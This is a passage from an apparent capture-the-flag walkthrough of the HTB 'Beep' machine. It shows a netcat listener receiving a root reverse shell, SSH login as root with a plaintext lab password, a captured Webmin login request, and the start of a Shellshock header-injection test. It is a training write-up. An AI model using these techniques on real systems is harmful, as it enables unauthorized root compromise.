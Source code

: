     root@kali$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 37697
    bash: no job control in this shell
    [root@beep /]# id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    

## SSH as root [Path #3]

It’s normal for the root login for webmin to be the root account password, and
that is the case here, as the “jEhdIekWmdjE” password works for SSH as root:

    
    
    root@kali# ssh root@10.10.10.7
    root@10.10.10.7's password:
    Last login: Fri Aug 25 18:05:54 2017
    
    Welcome to Elastix
    ----------------------------------------------------
    
    To access your Elastix System, using a separate workstation (PC/MAC/Linux)
    Open the Internet Browser using the following URL:
    http://10.10.10.7
    
    [root@beep ~]#
    

## Shellshock [Path #4]

If I assume for a second that I didn’t have the root password, I could take
some guesses trying to login to webmin. When I try to login, it create a POST
request to `/session_login.cgi`:

    
    
    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 28
    Origin: https://10.10.10.7:10000
    DNT: 1
    Connection: close
    Referer: https://10.10.10.7:10000/
    Cookie: testing=1; sid=x
    Upgrade-Insecure-Requests: 1
    
    page=%2F&user=root&pass=root
    

Any time there’s CGI (_especially_ on an old machine), it’s time to look for
[ShellShock](https://en.wikipedia.org/wiki/Shell_shock). To test, I’ll kick
the login request over to Repeater and replace the `User-Agent` header with
the Shellshock exploit string `() { :; };[cmd]`, starting with a simple sleep:
